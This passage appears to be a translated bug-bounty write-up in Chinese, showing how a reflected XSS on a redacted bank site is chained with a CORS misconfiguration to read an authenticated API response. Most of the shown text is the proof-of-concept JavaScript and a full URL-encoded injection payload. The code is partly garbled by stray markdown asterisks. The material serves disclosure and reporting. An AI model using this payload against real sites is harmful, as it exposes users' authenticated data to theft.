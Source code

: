 *![](img/dca3d0cffd29adfa3794f1d9386fd131.png)*

*是时候创建一个不错的概念证明，并提交报告了*

## *再现:*

*因此，要利用这个 CORS 错误配置，我们只需用以下代码替换 XSS 有效负载***alert(document . domain)***:*

```
*function cors() {  
var xhttp = new XMLHttpRequest();  
xhttp.onreadystatechange = function() {    
    if (this.status == 200) {    
    alert(this.responseText);     
    document.getElementById("demo").innerHTML = this.responseText;    
    }  
};  
xhttp.open("GET", "***https://www.redacted.com/api/return***", true);  
xhttp.withCredentials = true;  
xhttp.send();
}
cors();*
```

*像这样:*

```
**https://banques.redacted.com/choice-quiz?form_banque=****">*<script>*function%20cors(){var%20xhttp=new%20XMLHttpRequest();xhttp.onreadystatechange=function(){if(this.status==200) alert(this.responseText);document.getElementById("demo").innerHTML=this.responseText}};xhttp.open("GET","https://www.redacted.com/api/return",true);xhttp.withCredentials=true;xhttp.send()}cors();*</script>***&form_cartes=73&iframestat=1**
```
